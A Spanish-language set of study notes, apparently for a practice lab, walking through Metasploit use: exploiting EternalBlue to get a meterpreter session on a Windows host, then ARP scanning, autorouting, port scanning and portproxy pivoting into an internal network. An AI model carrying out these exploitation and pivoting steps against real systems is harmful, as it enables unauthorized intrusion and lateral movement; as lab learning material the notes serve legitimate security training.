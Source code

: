 
Primero debemos de reconocer en la red en la que se encuentra nuestra maquina.
`arp-scan -I eth0 --localnet`

Tendremos que hacer la intrusión a la maquina Windows. Para ello usaremos Metasploit, para explotar un EternalBlue o la explotación que hayamos realizado anteriormente.
`search eternalblue`
`use <Numero_id>`

Configuramos la IP de la maquina victima. Y ejecutamos el exploit.
`set RHOST`
`run`

Ya hemos obtenido una sesión de meterpreter.

En la sesión deberemos de usar el comando `ipconfig`, y esto nos muestra que tiene dos interfaces de red, con dos IP's diferentes.
Dejamos en segundo plano la sesión de meterpreter con `ctrl + z`, para ver que esta en segundo plano podemos usar el comando `sessions -l` 

Usaremos un modulo de [[METASPLOIT]], sirve para encontrar equipos dentro de la red interna.
`use post/windows/gather/arp_scanner`
`
Vemos las opciones de configuración con el comando `show options`
Debemos de configurar los siguientes campos.
`set SESSION`
`set RHOSTS <IP_de_segunda_interfaz_encontrada/X>`

Ejecutamos el modulo.
`run`

Nos encuentra varias direcciones IP, tenemos que apuntarlas para tenerlas en cuenta.
Debemos de probar contra todas las IP's la .1 y .2 si tienen la misma MAC no hace falta. La IP .255 tampoco es necesaria.

Una vez la tenemos identificada debemos de enrutar el trafico, para que el trafico de la maquina de la red interna pase al de la maquina atacante.
Para ello usaremos el siguiente modulo.
`use multi/manage/autoroute`

Nos pide que configuremos únicamente el id de sesión.
`set SESSION`

Una vez configurado ejecutamos el comando `run`, una vez lo tenemos debemos de hacer un escaneo de puertos, con el siguiente modulo para encontrar la IP de la maquina victima.
`use axiliari/scanner/portscan/tcp`

Vemos las opciones de configuración `show options`, nos pide la IP de la maquina victima.
`set RHOST`
Podemos ejecutar el comando con `run`, nos mostrara todos los puertos abiertos.
*ESPERAR A TODOS LOS PUERTOS*

Ahora usaremos el siguiente modulo, que solo se usa en Windows para realizar el pivoting.
`use post/windows/manage/portproxy`

Deberemos de configurar los siguientes cuatro apartados.
`set CONNECT_ADDRESS <IP_MAquina_Victima>`
`set CONNECT_PORT <Puerto_al_que_atacar>`
`set LOCAL_ADDRESS 0.0.0.0` (Siempre así)
`set LOCAL_PORT 5000` (Puerto de escucha en maquina atacante)
`set SESSION <id_sesion>`

Ejecutamos el modulo con el comando `run`

Una vez ejecutado desde el navegador, buscamos la IP de la maquina Windows (La del medio) con el puerto configurado en [[METASPLOIT]] en esta caso el puerto 5000.
Así podemos ver que esta corriendo en la maquina final.
